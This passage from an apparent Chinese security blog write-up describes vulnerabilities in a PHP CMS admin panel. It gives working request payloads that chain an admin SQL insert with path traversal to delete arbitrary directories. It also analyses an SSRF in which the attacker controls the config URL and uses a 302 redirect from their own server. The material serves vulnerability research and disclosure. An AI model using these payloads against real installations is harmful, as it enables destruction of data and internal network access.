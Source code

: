 查询出template表中id所对应的那一行的name列，然后作为`del_dir_file`函数的参数的最后一部分。

这个`del_dir_file`是用来删除目录或者文件的，因为第二个参数是true，所以只能删除目录。因此进行目录穿越，即可实现任意文件夹的删除。



尝试攻击一下。先在web根目录下创建一个目录1232。

然后先执行SQL：

```php
POST /admin/tool/sqlexecute.html

sql=insert into {pre}template values('3','../../1232/','2','1','2','2','0','2','0')
```

然后攻击，即可删除文件夹：

```php
http://xxxxxx/admin/template/del?id=3
```



本来刚准备把这个交CNVD的，结果瞅了一眼发现有个任意文件删除刚发出来，呜呜呜挖晚了被抢先了。



## SSRF

继续找还找了一个SSRF，其实感觉确实没啥用，交cnvd也被驳回了，而且类似这样的地方后台还有很多。

漏洞函数在`application/admin/controller/Market.php`的`template`函数：

```php
	public function template(){
        $url=config('web.official_url').'/market/index/4/'.Config::get('web.list_rows').'/'.$this->request->param('page');
        $data = Http::doGet($url,300);
        $data=json_decode($data,true);
        $paginator = new Bootstrap($data['data'],$data['per_page'],$data['current_page'],$data['total'],false,['path'=>url()]);
        $this->assign('list', $data['data']);
        $this->assign('page',$paginator->render());
        $this->assign('meta_title','模版列表');
        return $this->fetch();
    }
```

`$url`就是要请求的url，之后`Http::doGet($url,300);`进行get请求。不过这个`doGet`要求`$url`必须以`http`或者`https`开头，所以不能直接用gopher之类的协议进行SSRF。不过没关系，可以利用302跳转，在自己的VPS上写一个302跳转的服务，实现302跳转的SSRF。

再看一下`$url`是否可控。整个url是这个：

```php
config('web.official_url').'/market/index/4/'.Config::get('web.list_rows').'/'.$this->request->param('page')
```

可控的是最前面的`config('web.official_url')`和最后面的`$this->request->param('page')`，因为config是从数据库`ky_config`里得到的，而后台存在任意SQL语句执行，所以这个配置是我们可以随意更改的。
